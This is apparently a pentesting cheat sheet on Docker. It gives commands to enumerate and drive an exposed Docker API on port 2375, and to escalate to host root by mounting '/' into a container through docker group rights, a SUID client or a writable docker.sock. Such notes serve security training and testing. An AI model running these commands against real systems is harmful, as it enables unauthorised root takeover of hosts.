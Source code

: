 Remote enumeration
```bash
nmap -sV -p 2375 $IP
curl http://$IP:2375/version
# Remote execution on the docker container
docker -H tcp://$IP:2375 ps
```

Docker host and guest
```bash
# Docker is utilitizable on a host machine?
docker -H $remotehost $dockcmd
docker ps
docker version
docker image ls
docker config ls

# Inside a Docker Image?
#
# Get capabilities of the container from inside the container - libcap2-bin package
capsh --print 
# Check routing
ip a
```
[cli Tool](https://github.com/containers/skopeo)

[GTFOBins](https://gtfobins.github.io/gtfobins/docker/#shell) for Docker
```bash
docker images ls # list images required
```
Accessing Docker Container and exec..
```bash
docker -H $remotehost run -v /:/mnt --rm -it -d $image:$tag
docker -H $remotehost run -v /:/mnt --rm -it $image:$tag chroot /mnt sh
```

## Host to Docker to Host Privilege Escalation
#### Abuse Through Group Permissions - Docker, Sudoers Group and SUID permissions

To gain root privileges through Docker we need to be part of the Docker or Sudoers Group or the Docker client has the SUID bit set 
```bash
id
ls -la $(which docker)
```
If we are of the groups mentioned above or SUID bit is set we can escalate through the container and mount back onto the host file system as the root user of the Docker Container.

#### Writable Docker Socket

To gain root privileges through Docker we need to be part of the Docker Group or root user the Docker client or it has the SUID bit set, **and the Docker Socket is writable**.
```bash
# Typically
ls -la /var/run/docker.sock
find / -type f -name docker.sock 2>/dev/null

# Then mount 
docker -H unix:///$path/$to/$the/docker.sock run -v /:/mnt --rm -it $image chroot /mnt bash
```
## Host to Docker Hacking 
